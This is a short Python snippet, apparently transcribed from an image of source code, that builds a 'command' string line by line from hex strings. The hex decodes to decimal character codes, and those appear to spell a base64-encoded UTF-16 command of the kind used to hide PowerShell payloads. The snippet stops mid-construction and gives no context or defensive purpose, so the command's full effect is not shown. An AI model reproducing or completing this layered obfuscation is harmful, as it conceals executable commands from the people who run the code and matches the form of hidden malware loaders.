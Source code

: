 ```py
    command = command + decodeChar(decodeAsHex("3131392036352031303720363520373220373320363520383020383120") + decodeAsHex("3636203830203635203732203835203635203130302036352036352031313620363520373020373720363520313030203635203636"))
    command = command + decodeChar(decodeAsHex("3132312036352037") + decodeAsHex("31203130372036352039382031303320363620313130203635203637203635203635203736203831203636203734203635203731203532203635203939203635203636203439203635"))
    command = command + decodeChar(decodeAsHex("37322038312036352038342031313920363620313035203635203731203131312036352039302038312036362031303620363520373220383120363520373320363520363520313037203635203732") + decodeAsHex("203733"))
    command = command + decodeChar(decodeAsHex("3635203739203131392036352031303720363520373220383120363520383020383120363620") + decodeAsHex("373420363520373120353220363520313030203130332036362031313820363520373120313135203635203930"))
    command = command + decodeChar(decodeAsHex("38312036352031313620363520373020373320363520393020383120363620313232203635203732203831203635203834203831203636203130") + decodeAsHex("3820363520373220383120363520393720363520363620313138"))
    command = command + decodeChar(decodeAsHex("3635203731203831203635203733") + decodeAsHex("20363520363520313136203635203730203835203635203939203130332036362031313220363520363720363520363520373420363520363620313139203635203637"))
    command = command + decodeChar(decodeAsHex("3831203635203939203131392036352031313820363520363820393920363520393020383120363620313034203635203638203733203635203737203131392036362031303420363520363820373320") + decodeAsHex("3635"))
    command = command + decodeChar(decodeAsHex("38392031313920363520313033203635203637203438203635203834203831203636203130382036352037322038312036352039372036352036362031313820363520373120") + decodeAsHex("3831203635203733203635"))
    command = command + decodeChar(decodeAsHex("363620383120") + decodeAsHex("36352036392035362036352038352031313920363620383520363520363720363520363520373620383120363620373320363520373120383520363520383920383120363620313037203635"))
    command = command + decodeChar(decodeAsHex("37312038352036352039392031303320363620313232203635203637203635203635203831203635203636203535") + decodeAsHex("203635203637203733203635203831203831203636203439203635203732203831203635"))
    command = command + decodeChar(decodeAsHex("3937203635203636203131382036352037322037332036352039372038312036362035342036352037312036392036352031303020363520363620313132203635203731203536203635203938") + decodeAsHex("20313033"))
    command = command + decodeChar(decodeAsHex("3635203130352036352036382034382036352037342036352036362031313220363520373220343820363520373320363520363520") + decodeAsHex("3131362036352036392037332036352039382031313920363620313037"))
    command = command + decodeChar(decodeAsHex("363520373220") + decodeAsHex("3130372036352037332036352036352031313120363520373020313135203635203835203131392036362035332036352037322037372036352031303020363520363620313038203635203731"))
    command = command + decodeChar(decodeAsHex("3438203635") + decodeAsHex("203736203130332036362038352036352037312038352036352031303120363520363620343820363520363720353220363520383220383120363620313137203635203731203737203635203938"))
    command = command + decodeChar(decodeAsHex("3131392036362031303720363520373120313037203635203938203130332036362031313020363520373020343820363520373920313033203635203534203635203730203835203635") + decodeAsHex("203836203635203636"))
    command = command + decodeChar(decodeAsHex("37312036352036382031303320363520373620313033203636203732203635203731") + decodeAsHex("20383520363520313030203635203636203637203635203732203130372036352031303020363520363620313038203635"))
    command = command + decodeChar(decodeAsHex("3732203737203635203735203635203635203130372036352037312038352036352037352031313920363520313037203635203732203733203635203735203831203635") + decodeAsHex("20313033203635203637203438"))
    command = command + decodeChar(decodeAsHex("36352039372031303320363620") + decodeAsHex("3131382036352037312031303720363520393820313033203635203130332036352036372039392036352037332036352036352031313020363520363720313037203635"))
    command = command + decodeChar(decodeAsHex("313032") + decodeAsHex("20383120363520313033203635203732203737203635203938203635203636203130382036352037312038352036352039392036352036352031303320363520363820363520363520373620313033"))
    command = command + decodeChar(decodeAsHex("363520353220363520373220343820363520383320363520363620") + decodeAsHex("3835203635203639203733203635203130312031313920363520343920363520373220383520363520393920363520363520313232203635"))
    command = command + decodeChar(decodeAsHex("373220373320363520383820313139203635203132322036352036382038312036352037382038") + decodeAsHex("31203636203533203635203730203536203635203938203831203635203438203635203731203737203635"))
```